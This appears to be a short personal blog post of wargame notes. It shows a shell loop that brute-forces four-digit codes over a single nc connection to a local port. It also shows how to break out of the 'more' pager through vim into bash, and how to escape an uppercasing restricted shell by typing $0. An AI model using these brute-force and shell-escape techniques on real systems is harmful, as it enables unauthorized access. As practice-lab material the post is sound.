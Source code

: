 ```yaml
---
layout: post
title: "hack the planet"
---
```


## {{ page.title }}

###### {{ page.date | date_to_string }}

Try n credential attemps in single `nc` connections:

    for i in $(seq -s " " -f %04g 0 10000);do echo password attempt $i; done | nc localhost 30002

Escape `more` pager:

 * resize terminal window until `more` pauses due to non sufficient space to show text #tested in git4win/powershell
 * press 'v' to launch a vim readonly instance
 * escape `vim`:

    :set shell=/bin/bash
    :shell

Abuse `sh|bash` extrapolations, C sample:

    while(true) {
      print(">> ");
      cmd = makeUppercase(readInput());
      print(execute("sh", "-c", cmd)); #security issue here
    } #execute launches 'sh -c cmd' which on this case init the variable $0 to the name of the program 'sh'

Therefore if we type `$0`, it would execute `sh -c sh`, giving away a shell!

    $0
    # bash #now we move to a more confortable shell

Happy hacking! &#128522;
